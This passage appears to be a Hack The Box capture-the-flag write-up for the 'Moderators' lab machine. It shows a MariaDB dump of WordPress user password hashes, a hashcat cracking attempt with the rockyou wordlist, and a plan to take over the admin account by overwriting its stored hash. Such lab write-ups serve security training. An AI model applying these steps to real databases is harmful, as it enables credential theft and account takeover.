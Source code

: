 ```bash
| wp_term_taxonomy           |
| wp_termmeta                |
| wp_terms                   |
| wp_usermeta                |
| wp_users                   |
| wp_wpfm_backup             |
+----------------------------+
16 rows in set (0.000 sec)

MariaDB [wordpress]> select * from wp_users;
+----+------------+------------------------------------+---------------+----------------------+-------------------------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email           | user_url                | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+----------------------+-------------------------+---------------------+---------------------+-------------+--------------+
|  1 | admin      | $P$BXasOiM52pOUIRntJTPVlMoH0ZlntT0 | admin         | admin@moderators.htb | http://192.168.1.4:8080 | 2021-09-11 05:30:20 |                     |           0 | admin        |
|  2 | lexi       | $P$BZ0Fj92qgnvg4F52r3lpwHejcXag461 | lexi          | lexi@moderators.htb  |                         | 2021-09-12 16:51:16 |                     |           0 | lexi         |
+----+------------+------------------------------------+---------------+----------------------+-------------------------+---------------------+---------------------+-------------+--------------+
```

We're unable to crack any of the hashes
```bash
➜  moderators cat wp.hash                                                      
admin:$P$BXasOiM52pOUIRntJTPVlMoH0ZlntT0
lexi:$P$BZ0Fj92qgnvg4F52r3lpwHejcXag461
➜  moderators hashcat -a0 -m400 wp.hash /usr/share/wordlists/rockyou.txt --user
```

Instead we investigate the possibility of changing the password for user `admin`. 
From the site [useotools.com](https://www.useotools.com/wordpress-password-hash-generator/output) we write wanted password and are returned both the hash and also the SQL Query needed to update the table.

![](/assets/images/htb-writeup-moderators/moderators10.png)
